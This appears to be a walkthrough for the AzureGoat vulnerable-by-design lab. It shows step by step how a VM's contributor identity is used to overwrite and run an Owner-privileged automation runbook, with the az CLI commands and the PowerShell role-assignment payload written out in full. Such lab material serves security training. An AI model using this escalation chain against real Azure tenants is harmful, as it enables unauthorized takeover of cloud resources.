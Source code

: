 # Objective

Leverage the misconfiguration and escalate privilege to the owner of the resource group.

# Solution

We will have a virtual machine with a contributor role assigned and also an automation account runbook with an owner role assigned. SSH into the VM and list the resources inside the resource group and find the runbook inside the automation account. Update the runbook code with the code to change the virtual machine contributor role to the owner. Thus privilege escalation can be done.

**Step 1:** Login to the virtual machine using the credentials obtained from the config.txt file.

Provide the write permission to the justin.pem file and login to the virtual machine.

```
chmod +600 justin.pem

ssh -i justin.pem justin@40.85.170.40
```

![](https://user-images.githubusercontent.com/65826354/183737316-807e8ff3-cfe8-4cc3-a4db-9e260dea3eb1.png)

**Step 2:** Execute the command "az login" and check whether we can interact with the resources or not.

```
az login -i
```

![](https://user-images.githubusercontent.com/65826354/183737322-916d1d8e-b8f6-4e6e-8e84-e3fcd7758acf.png)

**Step 3:** List the resources using the following command.

```
az resource list
```

![](https://user-images.githubusercontent.com/42687376/223097171-4e5a4842-f720-4ab9-be57-7ac8febacd08.png)

In the output, locate the Virtual Machine name and principal ID.

![](https://user-images.githubusercontent.com/42687376/223097139-e22d6c72-4d19-490d-ab77-e8cb77cc37f0.png)

The Virtual Machine name and principal ID were retrieved successfully.

**Step 4:** Check the level of access given to our Virtual Machine.

```
az role assignment list -g azuregoat_app
```

**Note:** If your resource group has a different name, make sure to replace "azuregoat_app" with the actual name of your resource group to ensure that the commands are executed on the correct resource group.

Now, check the level of access given to our Virtual Machine.

Match the principal id of our VM's identity with the role assignments.

![](https://user-images.githubusercontent.com/42687376/223097148-6b15b0a5-94de-4622-b607-ffccc238e919.png)

We have a contributor role assigned. We can not perform role assignment operations to escalate our privileges.

**Step 5:** Check the list of resources to find out which resource is associated with the owner-level identity.

In the list of role assignments, we have an Owner role, we will try to map its principalID with the principalID for one of the resources.

![](https://user-images.githubusercontent.com/42687376/223097150-5886c2d7-5b7c-48c8-a30c-f5529ec8eb49.png)

To correlate this with the principal ID of the resources, you may run the following command again.

```
az resource list
```

![](https://user-images.githubusercontent.com/42687376/223097152-a30a38cd-7d86-429b-9581-15118bb8c799.png)

We found an automation account with Owner privileges. 

**Step 6:** Check for the runbooks to perform privileges escalation.

```
az automation runbook list --automation-account-name <Automation-account-name> -g azuregoat_app 
```

**Note:** Substitute the name of the automation account with the name of the automation account obtained by listing and matching the principal ID of the resource and also if your resource group has a different name, make sure to replace "azuregoat_app" with the actual name of your resource group to ensure that the commands are executed on the correct resource group.

![](https://user-images.githubusercontent.com/65826354/183737366-32394666-7473-4d38-a266-817cf66c0a68.png)

We found a PowerShellWorkFlow based runbook.

**Step 7:** Create a PowerShell script to elevate privileges.

This code will assign the **Owner** role to the Virtual Machine.

```
workflow Get-AzureVM {
    inlineScript {
        Disable-AzContextAutosave -Scope Process
        $AzureContext = (Connect-Azaccount -Identity -AccountId <Identity-Client-ID>).context
        $AzureContext = Set-AzContext -SubscriptionName $AzureContext.Subscription -DefaultProfile $AzureContext
        New-AzRoleAssignment -RoleDefinitionName "Owner" -ObjectId <VM-Object-ID> -resourceGroupName <ResourceGroup Name>
    }
}
```
Please update the following placeholders with the appropriate values:
- Replace `<Identity-Client-ID>` with the Client ID of your Automation Account.
- Replace `<VM-Object-ID>` with the Principal ID of your Virtual Machine.
- Replace `<ResourceGroup Name>` with the name of your Resource Group.

![](https://github.com/user-attachments/assets/de0b1df4-6153-4392-997b-a450f872cb9e)

**Step 8:** Replace, publish and re-start the runbook.

We will replace the content inside the azure runbook, publish it and start it to execute the role assignment code.

```
az automation runbook replace-content --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM" --content @exploit.ps1

az automation runbook publish --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM"

az automation runbook start --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM"
```

![](https://user-images.githubusercontent.com/42687376/223097162-b837d122-b0fc-4607-bf59-e2bb36652c51.png)

**Step 9:** Check the role assignment list.

```
az role assignment list -g azuregoat_app
```

**Note:** It may take some time to switch from "Contributor" to "Owner" by using the Runbook. If your resource group has a different name, make sure to replace "azuregoat_app" with the actual name of your resource group

Find our VM using the Principal ID.

![](https://user-images.githubusercontent.com/42687376/223097167-3559a180-3a9e-4257-a592-ef4a6f7563da.png)

The role got changed from contributor to owner.

***Congrats! We successfully escalated the privileges to the owner of the resource group.***
